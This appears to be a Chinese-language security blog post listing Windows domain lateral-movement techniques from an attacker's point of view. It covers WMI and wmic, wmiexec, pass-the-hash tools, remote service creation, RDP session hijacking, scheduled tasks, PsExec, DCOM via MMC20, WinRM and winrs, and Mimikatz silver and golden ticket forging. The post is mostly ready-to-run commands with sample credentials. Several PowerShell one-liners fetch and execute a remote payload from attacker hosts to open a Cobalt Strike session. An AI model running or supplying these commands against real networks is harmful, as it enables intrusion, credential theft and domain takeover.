当年的爱，大风萧萧的草莽之爱
记录一些LateralMovement(横向移动)的方法.本文首发
https://www.sec-in.com/article/311
博客备份
WMI
简介
WMI全称“windows管理规范”，从win2003开始一直存在。
利用条件
1、WMI服务开启，端口135，默认开启。
2、防火墙允许135、445等端口通信。
3、管理员权限，以及本地管理员组…
关于域用户添加进本地管理组的方法，可以参考(https://richardstk.com/2013/11/26/adding-domain-users-to-the-local-administrators-group-using-group-policy/)
利用方法：
0x01 windows自带wmic工具横向移动
1 | wmic /NODE:192.168.93.20 /user:"TEST\administrator" /password:"zxcASDqwe123" PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.108:8080/a'))\"" |
ps：注意”为转义符号.

0x02 wmiexec.vbs
域环境下还是在工作组环境下都可正常使用。使用域账号或本地账号均可
工作组：
1 | cscript wmiexec.vbs /shell 192.168.x.x administrator Aatest |
域环境：
1 | cscript wmiexec.vbs /shell 192.168.93.20 TEST\administrator zxcASDqwe123 |

若使用普通域内用户则失败…

0x03 Invoke-TheHash.ps1
分别导入Invoke-WMIExec.ps1和Invoke-TheHash.ps1，然后批量撞网段内的机器即可。
1 | Invoke-TheHash -Type WMIExec -Target 192.168.93.0/24 -Domain TEST -Username administrator -Hash aad3b435b51404eeaad3b435b51404ee |

0x04 kali自带pth工具集
1 | pth-winexe -U administrator%'123qwe!ASD' --system --ostype=1 //192.168.0.106 cmd |

0x05 impacket套件
1 | 域用户 |

Remote Service Creation
服务控制就是像听起来一样—控制服务，这对攻击者特别有用，因为可以通过SMB安排任务，因此启动远程服务的命令为
1 | sc \\192.168.93.20 create ExampleService binpath="c:\users\public\service.exe" |

注意这里的程序需要是一个服务程序，可以是有cs直接生成…

Remote Desktop Protocol
远程桌面是操作系统中的常见功能。它允许用户使用远程系统上的系统桌面图形用户界面登录到交互式会话。Microsoft将其对远程桌面协议（RDP）的实现称为远程桌面服务（RDS）。
你可以这样查询具有该功能的机器
1 | MATCH p=({owned: true})-[r:CanRDP]->() RETURN p |
（图片中并不是正确结果，只是演示操作。）

RDP hijacking
这个东西有点老了其实，国内十年前就在玩了，17年才被老外爆出来，其实技术性没啥的，就是在system权限下，tscon.exe只需要使用目标会话编号，就能立刻获取目标用户的桌面，并且不会留下明显的痕迹。
我们来看下这个操作。

普通权限无法获取会话。

我们换成system权限再看看。

便直接可以获得用户桌面。
PowerShell Remoting
winRM服务，2012之后默认开启。
可以使用下面的命令开启
1 | winrm quickconfig |
然后我们便可以使用下面的方式连接到开启了的机器。
1 | Enter-PSSession -Computername TAGRET |
或者获取远程机器的账户、密码？？也是没问题的

需要的条件就是Remote Management Users或者Administrators
Task Scheduler
计划任务，很简单的一个windows内置的东东，需要Administrators才能执行，之前我也说过用它提权方法，因为它的默认权限是system嘛，不过到了2008之后便不能交互式了，比如下面这样。
1 | at 13:20 /interactive cmd |

也有at命令变成了SCHTASKS .
1 | SCHTASKS /Create /SC ONCE /TN spawn /TR #{task_command} /ST #{time} |
- /TN：任务名称
- /TR：任务执行的程序
- /ST：任务执行的时间

可以使用下面的方法删除任务
1 | SCHTASKS /Delete /TN spawn /F >nul 2>&1 |
如果是在远程机器上创建，可以使用下面的方法：
1 | SCHTASKS /Create /S #{target} /RU #{user_name} /RP #{password} /TN "Atomic task" /TR "#{task_command}" /SC daily /ST #{time} |

如果想要启动一个木马什么的，可以写一个bat进去，然后用计划任务执行。
付上一个Powershell版的执行方式：
1 | $Action = New-ScheduledTaskAction -Execute "calc.exe" |
顺便说一句，比如, 当前机器在域内,而且你也有了当前机器的 administrator权限,但你在 administrator下是看不到域内的任何东西的,即使当前机器就在域中(没法和 dc 正常通信),那么此时你就需要想办法先
把自己从 administrator 提到 system,之后就能跟 DC 正常通信了。
1 | # schtasks /create /RL HIGHEST /F /tn "SysDebug" /tr "c:\windows\debug\SysDebug.exe" /sc DAILY /mo 1 /ST 10:05 /RU SYSTEM |
PsExec
这个东西不用我多说了吧，微软自己家的东西，好用的一批。。
- 通过ipc$连接，然后释放psexesvc.exe到目标机器。
- 通过服务管理SCManager远程创建psexecsvc服务，并启动服务。
- 客户端连接执行命令，服务端启动相应的程序并执行回显数据。

注：
1、远程机器的 139 或 445 端口需要开启状态，即 SMB；
2、明文密码或者 NTLM 哈希；
3、具备将文件写入共享文件夹的权限；
4、能够在远程机器上创建服务：SC_MANAGER_CREATE_SERVICE (访问掩码：0x0002)；
5、能够启动所创建的服务：SERVICE_QUERY_STATUS（访问掩码：0x0004）+ SERVICE_START（访问掩码：0x0010）
6、机器在第一次使用psexec的时候，会弹出确认提示框，为避免这个麻烦，可以加一个参数：-accepteula
缺点：
PSEXESVC 服务将会安装在远程系统中，此时将会生成 Event 4697、7045 这2种事件日志；
有可能预生成Event 4624和Event 4652 Windows事件日志，日志会记录下该工具的使用数据。
cs也有对应的功能。

DCOM
关于这个东西的介绍是：
Windows Distributed Component Object Model (DCOM) is transparent middleware that extends the functionality of Component Object Model (COM) [1] beyond a local computer using remote procedure call (RPC) technology. COM is a component of the Windows application programming interface (API) that enables interaction between software objects. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE).
大概的意思就是它是一个中间件，支持交互啥的。我们看一下他的用法。
首先我们可以使用下面的命令枚举所有的DCOM对象。
1 | Get-CimInstance Win32_DCOMApplication |

然后有些dcom能进行命令执行，我们就使用这些dcom进行横向移动。
MMC20.APPLICATION COM OBJECT
我们可以使用下面的命令查看该dcom的一些信息。
1 | Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}' |

其中的ExecuteShellCommand可以帮到我们。

远程利用方式如下：
1 | $a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2")) |

当然他也可以用来反弹cobaltstrike的会话，直接使用comexec插件即可：
原理也是调用的powershell上线。

注：脚本在4.0下有bug，因为4.0移除了&bstage。
Excel.Application
原理呢上面差不多，就不多说了。
网上也有自动化的脚本，就不演示了。
Password Spray
这个没啥说的，密码破解而已…

WinRM远程管理服务
算是对上面的补充吧。
WinRM 是 Microsoft 对 WS-Management 协议的实现,WS-Management 协议即一种基于标准简单对象访问协议[SOAP]的 “防火墙友好” 协议,它让来自不同供应商的硬件和操作系统能够互相操作。winRM的默认端口为5985（http）或5986（https）
第一次使用要设置一个信任

1 | Set-Item WSMan:localhost\client\trustedhosts -value * |
比如使用下面的方法来反弹一个cs的会话。
1 | Invoke-Command -ComputerName 192.168.3.73 -ScriptBlock { powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.3.86:80/a'))" } -credential administrator |
反弹shell：
1 | Enter-PSSession -ComputerName 192.168.3.73 -Credential administrator |

winrs
1 | winrs -r:192.168.3.73 -u:administrator -p:Admin!@#45 "ipconfig" |

1 | winrs -r:192.168.3.73 -u:administrator -p:Admin!@#45 “cmd” |

cs也有类似的功能。

Pass-the-Hash
这个没啥说的了吧，经典的攻击方式。
以mimikatz为例：
1 | sekurlsa::pth /user:.\localadmin /ntlm:HASH /run:cmd.exe |

LocalAccountTokenFilterPolicy
在windows Vista之后引入了一种默认开启的remote UAC，计算机的任何非SID 500本地管理员帐户， 用户在远程计算机上没有特权提升能力，并且用户无法执行管理任务.
域内一般默认会启用winrm，我们便可以通过pth然后启动进程然后steal_token，使用winrm执行命令。

顺便附上一个此类的脚本：
https://github.com/FSecureLABS/gists/blob/master/PowerView-with-RemoteAccessPolicyEnumeration.ps1
Pass-the-Ticket
这个也很经典了。
白银票据（Silver Tickets）
1 | mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLMHash> /user:<用户名> /id:用户id /ptt" exit |

黄金票据（Golden Tickets）
1 | mimikatz “kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit |

参考链接：
https://blog.csdn.net/weixin_40803858/article/details/102929233
https://blog.csdn.net/lhh134/article/details/104150949
https://www.cnblogs.com/gamewyd/p/6805595.html
https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
https://www.youtube.com/watch?v=kjg1vfAQINA
https://gist.github.com/rsmudge/8b2f699ea212c09201a5cb65650c6fa2